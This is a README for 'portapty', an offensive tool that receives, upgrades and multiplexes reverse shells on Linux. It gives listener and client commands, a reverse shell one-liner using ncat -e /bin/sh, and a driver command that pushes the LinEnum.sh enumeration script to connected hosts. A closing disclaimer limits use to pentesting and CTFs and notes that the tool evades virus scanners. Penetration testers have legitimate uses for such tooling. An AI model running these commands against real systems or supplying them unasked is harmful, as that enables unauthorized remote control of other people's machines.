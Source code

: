 # portapty

## What?
This is a portable pseudoterminal reverse shell upgrader and multiplexer
### What?
Portable: works on any linux version that can run this elf type (it's all statically linked and posix compliant)

Pseudoterminal: you can Control-C without killing the shell

Reverse shell: I haven't made it support bind shells yet

Upgrader: When a normal shell connects to it and doesn't try to TLS handshake with it,
it will be upgraded in a posix-compliant manner (this should even work on Linux from scratch boxes)

Multiplexer: multiple shells can connect at once

## Usage
```
portapty <client|server|keygen> OPTIONS
Options:
    client: [cert CERTHASH] eps IP PORT [IP PORT]...
    server: [cert CERTFILE] [key KEYFILE] [driver PATH] [cmd CMD] eps IP PORT [IP PORT]...;
    keygen: [cert CERTFILE] [key KEYFILE]
```
### Server
A simple invocation would be `portapty server eps :: 42069`. This hosts a server on port 42069 that will accept
both standard reverse shells on all IPv4 and v6 addresses (dual to IPv6 dual stacking).

On connection (like by `ncat -e /bin/sh :: 42069`), you will see messages like:
```
[portapty] [::1]:57388 available on /dev/pts/63
```
If you run `screen /dev/pts/63` on this created pty, you will be able to interact with it fully, as if it were an ssh session.

If you had a script you wished to run on the remote, you could try the folowing:

```
portapty server driver 'cat >&2&cat /tmp/LinEnum.sh;echo sleep 1;echo exit;wait' cmd bash eps :: 42069
```

This is good demonstration of the features provided to drivers. Let's break down the shell command argument for driver:
* `cat >&2 &` will grab the output of the remote shell, and pass it to stderr, which is then printed to the server terminal, and then move to the background
* `cat /tmp/LinEnum.sh` will send the script `/tmp/LinEnum.sh` to the remote shell
* `echo sleep 1` sends the command `sleep 1` to the remote shell, giving us time to flush the output before disconnecting
* `echo exit` will tell the remote shell to close
* `wait` will wait for the cat command to finish, which will be when the remote closes
We also can elect to use `bash` rather than the standard shell with the system, which will make most scripts run better.

### Client
It is rather irregular to invoke the client directly, but if you are particularly worried about security, or are working with an arbitrary upload vulnerability, this could be helpful. 

For a simple connection WITHOUT verifying the server, you can use just `portapty client eps :: 42069`, but for securing it, you can use:
```
portapty client cert iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo= eps :: 42069
```
This will check that the certificate SHA2-256 hash is `iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo=`, and fail if it isn't.

### Keygen
If you have an unstable computer/connection, or are trying some HA system, you may wish to use the `keygen` option. An example is the following:

```
portapty keygen key portapty.key cert portapty.crt
```

This will print the fingerprint as well, so that you can prepare clients before starting the server

The server can be to to use the certificate and key like so:

```
portapty server key portapty.key cert portapty.crt
```


## Disclaimer
Please don't do anything stupid with this (i.e. anything outside pentesting and ctfs). 
It isn't currently on any virus scanners, and I would prefer it to stay that way. 
It has a easy to detect signature, so it ain't stealthy.
